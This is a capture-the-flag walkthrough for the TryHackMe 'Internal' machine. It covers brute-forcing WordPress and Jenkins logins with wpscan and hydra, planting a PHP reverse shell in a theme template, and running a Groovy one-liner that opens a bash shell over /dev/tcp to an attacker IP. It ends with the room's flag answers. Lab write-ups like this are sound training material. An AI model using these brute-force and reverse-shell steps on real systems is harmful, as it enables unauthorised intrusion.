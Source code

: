 # Internal
## 13-07-2022
## level : hard

Machine IP : 10.10.235.184

We have to map the ip to `internal.thm` by using `/etc/hosts` 

Scanning using nmap :
```
nmap -sV 10.10.235.184 -oN service_version.txt
```
Http server is running so, lets run the gobuster
```
gobuster -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 500 | tee directory_list.txt
```

Now if we go to the `/blog` then we can see that this site is a wordpress site.

After some finding we can see one user named `admin` and the login page is also revealed.

Lets now bruteforce the login page using `wpscan`
```
wpscan --url http://internal.thm/blog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 30

```

After getting the password login to the site.

Now copy the php reverse shell
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```
Now lets edit the file with ip and port

go to Appearance > theme edito > theme files > 404 template

then just paste all the content of `php-reverse-shell.php`

Set a netcat listener
```
nc -lvnp 1234
```

Now from the browser run the `404.php` script to get a reverse shell


Finding for any backup file 
```
find / -type f -name "*.txt" 2>/dev/null | less
```

Now inside the `/opt/wp-save.txt` file we got the user password




After getting the user flag we can see that another file is there say that another service is running

So we will use ssh tunnelling to connect to that service from our local machine

```
ssh -L 6767:172.17.0.2:8080 aubreanna@10.10.235.184

```

Now if we open the site using `http://localhost:6767` we can see that the site opens up. 

We will use `hydra` to find the password for the login.

```
hydra 127.0.0.1 -s 6767 -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt

```
Now we have got our login credentials. Just login now.

Now as we have the access to the admin account we will try to get a reverse shell from this jenkins server to our local machine.

We will go to `Script Console` by browsing `http://localhost/script` 

Now we use a java reverse shell payload as jenkins run on java. ( change the ip to tun0 ip )
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.48.110/12345;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Now Start a netcat listener on port `12345`
```
nc -lvnp 12345

```
Now run the script on the jenkins script page 


As we've got a reverse connection now lets stabilize the shell

```
/bin/bash -i
export TERM=xterm-color
python -c 'import pty;pty.spawn("/bin/bash")
```

Now if we look into the `/opt` folder we can see that one text file `note.txt` is there.

After reading this file we can see that there is the credentials for the root user.


Now lets login as the root user.

So in the wp server machine if we login using the credentials. we can get the root flag easilly

```
su root

```

Now read the flag 
```
cat /root/root.txt
```




## Deploy and Engage the Client Environment

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| User.txt flag | THM{int3rna1_fl4g_1} |
| Root.txt flag | THM{d0ck3r_d3str0y3r}









#    THE END 
